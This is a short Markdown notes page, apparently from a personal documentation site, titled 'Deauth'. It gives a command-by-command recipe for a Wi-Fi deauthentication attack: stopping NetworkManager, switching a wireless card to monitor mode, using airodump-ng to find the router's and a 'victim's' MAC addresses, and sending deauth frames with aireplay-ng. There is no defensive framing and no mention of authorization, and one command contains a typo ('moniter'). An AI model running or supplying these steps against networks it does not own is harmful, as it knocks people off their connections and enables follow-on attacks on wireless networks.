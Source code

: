 ```yaml
---
title: Deauth
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

Stoping NetworkManager:

```sh
systemctl stop NetworkManager
```

Stop wifi card  and put your card in monitor mode : 

```sh
ifconfig wlp0s20f3 down
iwconfig wlp0s20f3 mode moniter
ifconfig wlp0s20f3 up 
```

- Capture mac address with AiroDump : 
```sh
airodump-ng -c 1 wlp0s20f3 
```

Grab the mac address of the router and the victim .
- Deauth command : 

```sh
aireplay-ng --deauth 10 -a WIFI -c target wlp0s20f3
```
